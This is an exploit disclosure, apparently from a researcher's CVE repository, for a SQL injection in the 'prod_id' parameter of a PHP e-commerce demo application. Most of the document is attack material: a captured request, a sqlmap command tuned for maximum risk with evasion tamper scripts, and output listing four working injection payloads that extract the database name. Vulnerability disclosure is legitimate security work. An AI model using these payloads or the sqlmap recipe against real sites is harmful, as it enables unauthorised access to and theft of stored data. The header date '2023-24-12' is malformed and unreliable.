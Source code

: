 # E-Commerce Website - SQL Injection 2
+ Exploit Title: E-Commerce Website - SQL Injection 2
+ Date: 2023-24-12
+ Exploit Author: Hamdi Sevben
+ Vendor Homepage: https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ Software Link: https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ Version: 1.0
+ Tested on: Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ CVE: CVE-

## References: 

## Description:
E-Commerce Website 1.0 allows SQL Injection via parameter 'prod_id' in "http://localhost/Electricks/Electricks-shop/pages/product_details.php?prod_id=11".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the ELECTRONIC PRODUCTS: "http://localhost/Electricks/Electricks-shop/pages/products.php"
+ Option and View.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /Electricks/Electricks-shop/pages/product_details.php?prod_id=11 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=ph6ngt1khn1l20eg8hivgv8uc6
Referer: http://localhost/Electricks/Electricks-shop/index.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'prod_id' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p prod_id --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```
```
---
Parameter: prod_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: prod_id=11' AND 7251=7251-- mvqJ

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: prod_id=11' AND (SELECT 4336 FROM(SELECT COUNT(*),CONCAT(0x716a787671,(SELECT (ELT(4336=4336,1))),0x71627a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FBBS

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: prod_id=11' AND (SELECT 3355 FROM (SELECT(SLEEP(5)))DonO)-- wPLs

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: prod_id=11' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a787671,0x4477555048486f6e487148784e57436e6b546e534d654447714f6256496243505158646c65797252,0x71627a7a71),NULL,NULL,NULL,NULL,NULL-- -
---
[20:05:42] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:05:42] [INFO] fetching current database
current database: 'electricks'
```

+ current database: `electricks`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/ef46e98d-0521-488a-aef2-0ae24dadba49)

